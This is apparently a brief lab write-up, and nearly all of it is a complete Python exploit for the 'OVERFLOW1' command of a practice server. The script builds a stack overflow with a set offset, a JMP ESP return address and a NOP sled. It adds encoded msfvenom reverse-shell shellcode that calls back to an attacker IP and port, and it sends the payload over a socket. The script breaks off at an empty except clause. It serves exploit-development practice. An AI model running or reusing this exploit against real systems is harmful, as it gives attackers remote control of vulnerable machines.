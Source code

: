 Updated the final exploit:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

# bad-chars \x00\x07\x2e\xa0

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "\xAF\x11\x50\x62" # 625011AF   FFE4             JMP ESP
nop = "\x90" * 32

# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.185.241 LPORT=10099 -e x86/shikata_ga_nai -i 3 -f py -b '\x00\x07\x2e\xa0' EXITFUNC=thread
buf =  b""
buf += b"\xdb\xd3\xd9\x74\x24\xf4\x5f\x29\xc9\xb1\x5f\xbd\xbe"
buf += b"\x73\xe9\xc0\x83\xc7\x04\x31\x6f\x15\x03\x6f\x15\x5c"
buf += b"\x86\x34\x01\x79\x1d\xe3\x76\xc4\x77\x1c\x5d\xa6\xd2"
buf += b"\xd0\x6b\x77\xba\x27\x06\x6d\x38\x22\xcc\x12\xfc\xb6"
buf += b"\x12\x48\x49\xe8\xd4\x6d\x63\x6f\x3e\x75\x52\xd1\xdc"
buf += b"\x22\x6d\xba\xb1\x29\xf6\xe7\xc0\xa9\x05\xcb\x44\x1a"
buf += b"\x6a\x51\x9b\x72\xb2\x1f\x0e\x97\x1f\xec\x58\x72\x4e"
buf += b"\x69\x8c\xc0\xb7\xdc\x02\x09\x3d\x5c\x2d\x9f\x9f\xa9"
buf += b"\x35\x9b\x3d\x9e\x6c\x14\xc2\xbf\x48\x8f\x67\x0d\x16"
buf += b"\x72\x21\x7f\x02\x54\xb0\x6e\xd0\x51\x1f\xe8\x6f\xe7"
buf += b"\x22\x85\x7e\xfb\x57\xba\xc2\x7e\x3b\xd5\x76\xf9\x8e"
buf += b"\x58\xfd\xdf\xf3\x8d\xbf\x88\x43\x6a\x5a\x65\xc3\x56"
buf += b"\x83\x0e\x02\xc2\xed\x46\xbe\xc4\x8f\xd8\x8f\xa7\xea"
buf += b"\xc4\x16\xba\x6c\xbd\xfd\xda\xe2\x41\x5e\xfd\x1a\xde"
buf += b"\x5b\xbb\xc8\xdd\x30\xae\x6a\x28\x08\x15\xbd\x28\x9d"
buf += b"\xb6\x28\xd7\x9c\x93\xd7\xff\xda\xeb\x44\xbb\x48\xcf"
buf += b"\x3b\x47\xaa\x5b\x06\x44\xa3\x90\xf5\xfb\xbe\x71\xfe"
buf += b"\xda\x6b\xeb\x99\xa2\xc0\x44\x36\xa5\x59\x0a\xf0\x1e"
buf += b"\xef\x9e\x24\xc1\x1c\x0b\xae\x73\xaf\xb2\x1b\x68\x3b"
buf += b"\x71\x54\xca\x81\xd1\x8f\x6f\x40\x30\x47\xa9\x37\xb0"
buf += b"\x04\xf0\x1d\x4d\x13\x61\xe8\x16\xd9\xc3\x9d\x89\x08"
buf += b"\x3f\x1e\x05\xca\xf5\x50\x3d\x3d\xd3\xa7\xdd\x58\xfa"
buf += b"\x1c\xd3\x29\xfe\xfc\x0e\xbd\x18\xda\xa9\x3b\xe9\x75"
buf += b"\x73\xa7\xcf\x85\xd5\x08\x02\x11\xf1\x54\xe8\x3d\x3e"
buf += b"\x2c\x0f\x0e\x5c\x65\x3e\xf4\xad\x2b\x37\x67\x05\x6d"
buf += b"\x48\x8f\x2d\x16\x71\x3a\xb9\xce\x8b\xe9\x7a\x32\x5a"
buf += b"\x85\xfb\x5f\xd0\x22\x95\x50\xd5\xe6\xcc\x3b\xc9\x1d"
buf += b"\x2b\xa8\x46\xcd\x62\x64\x70\xb8\x1c\x29\xb9\x7b\xe1"
buf += b"\xcf\x1c\x0a\x73\x2d\x62\x4f\xdb\xaf\x54\x85\x6b\xcf"
buf += b"\x96\xa5\x2f\xd0\x29\xf1\x5a\xfc\x76\x0b\x13\x73\xe7"
buf += b"\x98\x47\xc6\x65\x55\xbb\xaf\x1b\x37\x61\x8a\x91\xa4"
buf += b"\x36\xd7"

filler = "C" * (crash - (len(offset) + len(EIP) + len(buf) + len(nop)))
payload = cmd + offset + EIP + nop + buf

print "Fuzzing with %s bytes" % len(payload)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(payload)
	s.close()
except:
```